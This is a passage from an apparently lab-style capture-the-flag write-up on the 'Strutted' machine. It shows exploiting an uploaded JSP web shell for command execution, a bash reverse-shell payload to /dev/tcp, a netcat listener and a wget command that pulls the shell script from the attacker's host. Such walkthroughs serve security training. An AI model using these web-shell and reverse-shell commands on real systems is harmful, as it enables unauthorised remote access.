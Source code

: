 
![Pasted image 20250325130106.png](../../IMAGES/Pasted%20image%2020250325130106.png)

After changing this, we can see the following:

![Pasted image 20250325130141.png](../../IMAGES/Pasted%20image%2020250325130141.png)

Once we've uploaded it, we can access the file with and test a basic RCE:

```
http://strutted.htb/shell.jsp?action=cmd&cmd=id
```

![Pasted image 20250325142213.png](../../IMAGES/Pasted%20image%2020250325142213.png)

There we go, it worked, we can now send ourselves a shell, we need to do it in the following format:

```
echo -ne '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"' > shell.sh
```


Now, start a python server:

```
python3 -m http.server
```

Next, start a netcat listener on the specified port:

```
nc -lvnp PORT
```

We can now use the following to download the file:

```
http://strutted.htb/shell.jsp?action=cmd&cmd=wget%20http%3A%2F%2FIP%3A8000%2Fshell.sh%20-O%20%2Ftmp%2Fshell.sh
```
